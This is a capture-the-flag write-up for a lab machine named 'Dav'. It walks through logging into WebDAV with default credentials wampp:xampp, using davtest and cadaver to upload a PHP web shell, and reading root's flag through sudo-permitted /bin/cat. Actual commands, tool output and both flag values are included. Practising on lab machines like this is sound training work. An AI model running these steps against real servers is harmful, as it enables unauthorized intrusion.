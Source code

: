 # Dav

Simple and easy. However, included a few new tools and things so worth writing down.

First up, a scan revealed a single port open: the port 80 website. Going there revealed the apache landing page.

A dirb revealed just one additional thing (aside from index and server-status): `/webdav`. Going to webdav pushed up a basic auth password prompt.

I did a bit of reading, finding this article which was useful: https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/. However, it all required credentials to work.

I checked the source of the home page, did more intensive scans and dirbs, but couldn't find anything. Since bruteforcing without a username is never the right move, that just left default credentials.

I tried a few sets I googled, and the second set worked: `wampp:xampp`

Next, davtest: `davtest -url http://10.10.119.10/webdav -auth wampp:xampp`

This revealed: 

```
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.119.10/webdav
********************************************************
NOTE    Random string for this session: t0ADTE
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.119.10/webdav/DavTestDir_t0ADTE
********************************************************
 Sending test files
PUT     cfm     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cfm
PUT     txt     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
PUT     html    SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
PUT     jhtml   SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jhtml
PUT     asp     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.asp
PUT     pl      SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.pl
PUT     shtml   SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.shtml
PUT     php     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
PUT     cgi     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cgi
PUT     aspx    SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.aspx
PUT     jsp     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jsp
********************************************************
 Checking for test file execution
EXEC    cfm     FAIL
EXEC    txt     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
EXEC    html    SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
EXEC    jhtml   FAIL
EXEC    asp     FAIL
EXEC    pl      FAIL
EXEC    shtml   FAIL
EXEC    php     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
EXEC    cgi     FAIL
EXEC    aspx    FAIL
EXEC    jsp     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.119.10/webdav/DavTestDir_t0ADTE
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cfm
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jhtml
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.asp
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.pl
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.shtml
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cgi
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.aspx
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jsp
Executes: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
Executes: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
Executes: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
```

So, I can upload files and I can upload PHP files, which are fully executable. I downloaded a copy of https://github.com/flozz/p0wny-shell/blob/master/shell.php and got to work.

Surprisingly, `davtest` despite having an `uploadfile` arg and showing in the above test it could upload, wasn't working. I tried this: `davtest -url http://10.10.119.10/webdav -auth wampp:xampp -uploadfile shell.php -uploadloc http://10.10.119.10/webdav/shell.php` and it failed with no diagnostic error. I switched away largely because the errors were done (just said FAILED, come on devs). 

    > After I rooted the machine later (while writing this) I did more investigation: the latter path is relative to the dir so this would have worked: "davtest -url http://10.10.119.10/webdav -auth wampp:xampp -uploadfile shell.php -uploadloc shell.php". Obvious really. Still needs better error messages, or help that says something like "upload path RELATIVE to webdav root".

Instead, I used `cadaver http://10.10.119.10/webdav` which provides an FTP like experience. I used that to upload the shell via `put shell.php`. Navigated to `http://10.10.119.10/webdav/shell.php` and it loaded up nicely.

At this point, easy. The user.txt flag was in /home/merlin with value: `449b40fe93f78a938523b7e4dcd66d2a`. A `sudo -l` revealed the user could run `/bin/cat` with nopasswd as root, so `sudo /bin/cat /root/root.txt` got the root flag: `101101ddc16b0cdf65ba0b8a7af7afa5`. Easy peasy.